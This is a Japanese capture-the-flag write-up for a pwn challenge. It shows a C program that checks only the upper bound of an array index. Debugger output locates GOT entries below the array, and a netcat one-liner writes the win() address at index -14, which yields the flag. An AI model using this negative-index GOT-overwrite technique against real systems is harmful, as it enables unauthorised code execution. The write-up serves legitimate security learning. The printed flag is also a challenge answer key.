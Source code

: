 # inbound:Pwn:128pts
inside-of-bounds  

[inbound.tar.gz](inbound.tar.gz)  

`nc 34.170.146.252 51979`  

# Solution
ファイル一式と接続先が渡される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int slot[10];

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

int main() {
  int index, value;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  printf("index: ");
  scanf("%d", &index);
  if (index >= 10) {
    puts("[-] out-of-bounds");
    exit(1);
  }

  printf("value: ");
  scanf("%d", &value);

  slot[index] = value;

  for (int i = 0; i < 10; i++)
    printf("slot[%d] = %d\n", i, slot[i]);

  exit(0);
}
```
0~9までのindexにvalueを設定できるサービスのようで、indexが10以上である場合は`out-of-bounds`と怒られる。  
`win`が見えるので、そちらに飛ばせばいいようだ。  
ソースを注意深く読んでいると、マイナス方面へのチェックがないことに気付く。  
以下のように`slot`のマイナス側に何があるか見てやる。  
```bash
$ gdb ./inbound
~~~
pwndbg> info variables slot
All variables matching regular expression "slot":

Non-debugging symbols:
0x0000000000404060  slot
pwndbg> x/32xg 0x0000000000404060 - 0x70
0x403ff0:       0x0000000000000000      0x0000000000000000
0x404000 <puts@got.plt>:        0x0000000000401030      0x0000000000401040
0x404010 <printf@got.plt>:      0x0000000000401050      0x0000000000401060
0x404020 <__isoc99_scanf@got.plt>:      0x0000000000401070      0x0000000000401080
0x404030:       0x0000000000000000      0x0000000000000000
0x404040 <stdout@GLIBC_2.2.5>:  0x0000000000000000      0x0000000000000000
0x404050 <stdin@GLIBC_2.2.5>:   0x0000000000000000      0x0000000000000000
0x404060 <slot>:        0x0000000000000000      0x0000000000000000
0x404070 <slot+16>:     0x0000000000000000      0x0000000000000000
0x404080 <slot+32>:     0x0000000000000000      Cannot access memory at address 0x404088
```
いろいろなgotがある。  
-1からマイナスの値を増やして、適切なアドレスを`win`に書き換えてやる。  
```bash
$ gdb ./inbound
~~~
pwndbg> disass win
Dump of assembler code for function win:
   0x00000000004011d6 <+0>:     endbr64
   0x00000000004011da <+4>:     push   rbp
   0x00000000004011db <+5>:     mov    rbp,rsp
~~~
pwndbg> p 0x00000000004011d6
$1 = 4198870
~~~
$ echo -e "-1\n4198870" | nc 34.170.146.252 51979
~~~
$ echo -e "-2\n4198870" | nc 34.170.146.252 51979
~~~
$ echo -e "-14\n4198870" | nc 34.170.146.252 51979
index: value: slot[0] = 0
slot[1] = 0
slot[2] = 0
slot[3] = 0
slot[4] = 0
slot[5] = 0
slot[6] = 0
slot[7] = 0
slot[8] = 0
slot[9] = 0
Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}
```
-14で`win`に飛び、flagが得られた。  

## Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}